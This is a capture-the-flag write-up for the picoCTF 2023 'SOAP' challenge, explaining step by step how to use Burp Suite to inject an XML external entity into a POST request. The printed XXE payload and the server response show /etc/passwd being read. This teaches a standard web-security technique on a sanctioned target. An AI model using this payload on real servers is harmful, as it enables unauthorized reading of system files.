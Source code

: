 # SOAP

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2023, Web Exploitation, XXE
Author: GEOFFREY NJOGU

Description:
The web project was rushed and no security assessment was done. 
Can you read the /etc/passwd file?

Hints:
1. XML external entity Injection
```

## Solution

It's usually good practice to look through the source code of the web site but in this case we already know what
we are looking for thanks to the hint. For more background on XXE see the references below.

Start [BURP Suite](https://portswigger.net/burp) and set 'Intercept' to off under the Proxy -> Intercept tab. 
Then configure your browser to use Burp as its proxy and go to the web site.

Clicking on any of the 'Details' buttons sends POST requests with the following payload
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

We will inject code in this payload to read the `/etc/passwd` file.

Under Proxy -> HTTP history tab right-click on any of the POST requests and 'Send to Repeater'.
Then navigate to the Repeater tab.

In the XML-payload add `<!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>` between the first XML-line and `<data>`.  
Then replace the number with `&pico;` and don't change anything else.

In total your XML-payload should look like this
```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>
  <data>
    <ID>
      &pico;
    </ID>
  </data>
```

The 'pico' name is arbitrary and can be called anything. In many code examples it is called 'data' but I chose 'pico' here.

Press the 'Send'-button to send your request.

The response should look like this
```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Fri, 28 Jul 2023 11:58:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{<REDACTED>}
```

The flag is included in the last line of the `/etc/passwd` file output.

## References

 - [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
 - [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
